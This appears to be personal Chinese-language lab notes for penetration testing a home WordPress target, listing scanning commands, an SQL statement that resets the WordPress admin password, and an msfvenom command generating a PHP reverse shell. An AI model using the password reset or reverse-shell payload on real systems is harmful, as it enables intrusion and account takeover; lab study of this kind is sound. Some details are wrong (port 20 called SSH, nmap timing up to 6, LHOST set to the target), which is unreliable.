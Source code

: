 ### 我的系统
+ Kali 靶机IP 192.168.18.128
+ Win7 192.168.18.129
+ Wordpress 192.168.18.131

## 常用命令
+ 扫描IP
    + arp-scan -l 
    + netdiscover 
    + fping

+ 端口扫描
    + nmap -sS -sV -p- -v -T4 靶场ip
        + -A 详细扫描目标ip
        + -v 显示详细的扫描过程
        + -sS TCP SYN 扫描
        + -sV 服务版本扫描
        + -p- 扫描全部端口 = -p 1-65535
        + -T4 级别越高速度越快，最高为6级
    + 常见端口
        + 20 SSH服务
        + 80 HTTP服务
        + 3306 MySQL服务
+ 目录扫描
    + dirb http://地址
    + dirbuster 图形界面

+ sql查找
    + select * form 'wp_users'
    + update wp_users set user_pass=md5("123456") where user_login = 'admin'

+ shell
    + 利用msf成成反弹shell msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.18.131 LPORT=4444 -o Desktop/shell.php

+ kali
    + ctrl c 强制结束
    + apt-get update 升级系统包 apt-get update && apt-get upgrade



